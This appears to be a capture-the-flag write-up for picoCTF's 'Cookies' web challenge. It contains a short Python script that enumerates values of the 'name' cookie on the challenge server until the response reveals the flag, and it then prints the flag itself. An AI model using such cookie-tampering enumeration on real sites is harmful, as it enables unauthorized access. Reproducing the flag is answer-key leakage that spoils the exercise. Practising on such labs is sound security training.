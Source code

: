<h1>Cookies</h1>
<h3>Description</h3>
<pre>
Who doesn't love cookies? Try to figure out the best one. <a href='http://mercury.picoctf.net:27177/'>Link</a>
</pre>
<h3>Solution</h3>

<p>Check semua cookie value 1 s/d 30</p>

```python3
import requests

s = requests.Session()
for i in range(1,30):
    url = 'http://mercury.picoctf.net:27177/'
    cookies = {"name":str(i)}
    res = s.get(url,cookies=cookies).text
    if "picoCTF{" in res:
        search = 'Flag</b>: <code>'
        end = '</code>'
        index_start = res[res.find(search)+len(search):]
        index_end = index_start.find(end)
        print("Cookie "+str(i)+" : "+index_start[:index_end])
        break
    else:
        search = 'font-size:30px;"><b>'
        end = '</b></p>'
        index_start = res[res.find(search)+len(search):]
        index_end = index_start.find(end)
        print("Cookie "+str(i)+" : "+index_start[:index_end])
        
```
<h3>Flag</h3>
<pre>
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
</pre>
